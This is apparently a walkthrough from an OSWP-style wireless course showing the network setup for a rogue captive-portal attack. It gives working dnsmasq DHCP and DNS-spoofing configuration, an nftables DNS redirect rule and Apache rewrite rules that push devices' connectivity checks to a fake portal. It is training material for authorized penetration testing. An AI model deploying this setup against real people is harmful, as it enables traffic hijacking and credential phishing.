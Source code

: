In order for this attack to work, we will need to do a bit of configuration.

We will first assign an IP address to our `wlan0` interface. We'll use `192.168.87.1` with a network mask of `255.255.255.0`. The IP we use doesn't matter because once the user's system detects that it can't reach the Internet, it will automatically open the IP address of the router in the browser, which is also the host of the captive portal.

```bash
┌──(root💀gobots)-[16Apr2025 20:34:24]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.163  netmask 255.255.255.0  broadcast 192.168.1.255
        ether 00:0c:29:af:f3:43  txqueuelen 1000  (Ethernet)
        RX packets 13885  bytes 6609826 (6.3 MiB)
        RX errors 0  dropped 1  overruns 0  frame 0
        TX packets 11700  bytes 1028412 (1004.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 71154  bytes 6167748 (5.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 71154  bytes 6167748 (5.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 192.168.87.1  netmask 255.255.255.0  broadcast 0.0.0.0
        ether 82:99:99:34:40:ab  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
                 
┌──(root💀gobots)-[16Apr2025 20:34:27]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# sudo ip link set wlan0 up
```

We will have clients connecting to us, and in order for them to reach our captive portal, they need an IP configuration. Thankfully, the first thing the user will do is request a Dynamic Host Configuration Protocol lease. We will provide that using `dnsmasq`, a small DNS/DHCP server. We can install dnsmasq with apt.

We will use the following `mco-dnsmasq.conf` configuration file for DHCP.

```
# Main options
# http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
domain-needed
bogus-priv
no-resolv
filterwin2k
expand-hosts
domain=localdomain
local=/localdomain/
# Only listen on this address. When specifying an
# interface, it also listens on localhost.
# We don't want to interrupt any local resolution
# since the DNS responses will be spoofed
listen-address=192.168.87.1

# DHCP range
dhcp-range=192.168.87.100,192.168.87.199,12h
dhcp-lease-max=100
```

We also need to do `DNS spoofing` so that the response for most DNS requests will point back to us with the exception of rare cases. We'll use `dnsmasq` again. To do this, we will append the following to the configuration file we just created.

```bash
# This should cover most queries
# We can add 'log-queries' to log DNS queries
address=/com/192.168.87.1
address=/org/192.168.87.1
address=/net/192.168.87.1

# Entries for Windows 7 and 10 captive portal detection
address=/dns.msftncsi.com/131.107.255.255
```

Although we are only spoofing a few generic top-level domains (gTLD), .com, .net, and .org, this should cover most of the website domains a connected user will attempt to access.
For Windows, we have to resolve dns.msftncsi.com to a specific IP address that Windows knows the result of. This will help Windows detect the captive portal.

Now that the configuration file is complete, let's start dnsmasq with --conf-file followed by the path of our configuration file.

```bash
┌──(root💀gobots)-[16Apr2025 20:43:32]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# sudo dnsmasq --conf-file=mco-dnsmasq.conf
```
After startup, dnsmasq will create a file containing its process ID in `/var/run/dnsmasq.pid`. This will let us find and kill the process when we are done. We can inspect  `syslog` to confirm it started successfully.

```bash
┌──(root💀gobots)-[16Apr2025 22:36:52]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# sudo tail /var/log/syslog | grep dnsmasq
2025-04-16T22:36:52.165425+00:00 gobots dnsmasq[602939]: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth DNSSEC loop-detect inotify dumpfile
2025-04-16T22:36:52.165462+00:00 gobots dnsmasq[602939]: warning: no upstream servers configured
2025-04-16T22:36:52.165485+00:00 gobots dnsmasq-dhcp[602939]: DHCP, IP range 192.168.87.100 -- 192.168.87.199, lease time 12h
2025-04-16T22:36:52.165506+00:00 gobots dnsmasq[602939]: using only locally-known addresses for localdomain
2025-04-16T22:36:52.165528+00:00 gobots dnsmasq[602939]: read /etc/hosts - 99 names
```

Using netstat, we can confirm it is listening on port 53 (TCP/UDP) for DNS, and on 67 (UDP) for DHCP.

```bash
┌──(root💀gobots)-[16Apr2025 22:38:02]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# sudo netstat -lnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:53              0.0.0.0:*               LISTEN      602939/dnsmasq      
tcp6       0      0 :::53                   :::*                    LISTEN      602939/dnsmasq      
udp        0      0 0.0.0.0:53              0.0.0.0:*                           602939/dnsmasq      
udp        0      0 0.0.0.0:67              0.0.0.0:*                           602939/dnsmasq      
udp6       0      0 :::53                   :::*                                602939/dnsmasq      
```

Although port 67 (UDP) is open, it is listening on 0.0.0.0 (all IP addresses), even though we specifically configured it to listen on a specific IP in Listing 11 with the _listen-address_ parameter. This appears to be a bug.

DHCP is a broadcast protocol, and clients send broadcast frames to get any potential listening DHCP server to give them a lease. For that reason, dnsmasq isn't listening on a specific IP address but a broadcast address. Although it is listening on 0.0.0.0, it will only listen to broadcast traffic on the interface we specified. Note that netstat won't display that information. The same goes for DNS (port 53 TCP/UDP).

Sometimes clients ignore DNS settings provided in the DHCP lease, and we will use an _nftables_[5](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-captive-portals-15795/the-captive-portal-attack-15859/networking-setup-16080#fn-local_id_7-5) rule to force redirect all DNS requests (UDP to port 53 only--TCP port 53 is for _zone transfer_[6](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-captive-portals-15795/the-captive-portal-attack-15859/networking-setup-16080#fn-local_id_7-6)) back to our server.

To do this, we need to install nftables and then add the rules.

```bash
┌──(root💀gobots)-[16Apr2025 22:40:45]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# sudo nft add table ip nat

┌──(root💀gobots)-[16Apr2025 22:42:49]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
          
┌──(root💀gobots)-[16Apr2025 22:42:57]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```

In Apache's site configuration, we need to add `mod_rewrite` and `mod_alias` rules so that the captive portal is set properly. We'll add the following lines in `/etc/apache2/sites-enabled/000-default.conf` before the `VirtualHost` closing tag.


```bash
...

  # Apple
  RewriteEngine on
  RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
  RewriteCond %{HTTP_HOST} !^192.168.87.1$
  RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L,R=302]

  # Android
  RedirectMatch 302 /generate_204 http://192.168.87.1/portal/index.php

  # Windows 7 and 10
  RedirectMatch 302 /ncsi.txt http://192.168.87.1/portal/index.php
  RedirectMatch 302 /connecttest.txt http://192.168.87.1/portal/index.php

  # Catch-all rule to redirect other possible attempts
  RewriteCond %{REQUEST_URI} !^/portal/ [NC]
  RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L]

</VirtualHost>
```

These additions will require two modules to be enabled. For the first four and the last three instructions, we need the `redirect_ module`. For the two `"RedirectMatch"` additions in-between, we need the `alias` module.

Let's enable them using a2enmod.

```bash
┌──(root💀gobots)-[16Apr2025 22:51:52]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# a2enmod rewrite
Module rewrite already enabled
               
┌──(root💀gobots)-[16Apr2025 22:51:59]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# systemctl restart apache2                                                               
        
┌──(root💀gobots)-[16Apr2025 22:52:27]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# a2enmod alias  
Module alias already enabled
 
```

Apache has a number of small utilities that allow us to enable and disable modules. We could manually create and delete symlinks in specific directories, but these utilities have auto-completion for the respective items they are dealing with.

The naming convention of the utilities makes them relatively easy to read. Each one starts with `"a2"`, which stands for Apache2. It is followed by `"en" or "dis"`, to indicate enabled and disabled. The last part indicates what is to be enabled or disabled, and it can be `"mod", "site", or "conf"`, which stand for module, site, or configuration, respectively. For example, if we wanted to disable a module, we would be using `a2dismod`.

Let's start (or restart) Apache using systemctl restart apache2 and then make sure the portal is correctly displayed locally by pointing a browser to 127.0.0.1.